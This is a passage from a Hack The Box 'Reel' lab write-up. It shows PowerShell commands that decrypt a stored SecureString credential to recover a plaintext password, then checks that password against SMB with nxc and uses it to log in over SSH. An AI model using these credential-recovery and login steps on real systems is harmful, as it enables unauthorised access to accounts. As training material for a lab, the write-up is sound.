 {% code overflow="wrap" %}
```powershell
# launch PowerShell
c:\Users\nico\Desktop> powershell
# assign the password in a variable
c:\Users\nico\Desktop> $pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692"
# create a secure string object
c:\Users\nico\Desktop> $securePass = ConvertTo-SecureString $pass -AsPlainText -Force
# assign the user name in a variable
c:\Users\nico\Desktop> $user = "HTB\Tom"
# create a pscredential object
c:\Users\nico\Desktop> $cred = New-Object System.Management.Automation.PSCredential($user,$securePass)
# confirm that the object was created
c:\Users\nico\Desktop> $cred

UserName                     Password
--------                     --------
HTB\Tom  System.Security.SecureString
# decrypt the password 
c:\Users\nico\Desktop> $cred.GetNetworkCredential() | fl


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```
{% endcode %}

We can confirm that the credentials are valid and then use them to SSH into the box:

{% code overflow="wrap" %}
```bash
# validate credentials
$ nxc smb 10.10.10.77 -u Tom -p '1ts-mag1c!!!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\Tom:1ts-mag1c!!!
# ssh into the box as tom
$ ssh tom@10.10.10.77
The authenticity of host '10.10.10.77 (10.10.10.77)' can't be established.
ED25519 key fingerprint is SHA256:fIZnS9nEVF3o86fEm/EKspTgedBr8TvFR0i3Pzk40EQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.77' (ED25519) to the list of known hosts.
tom@10.10.10.77's password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>
```
{% endcode %}
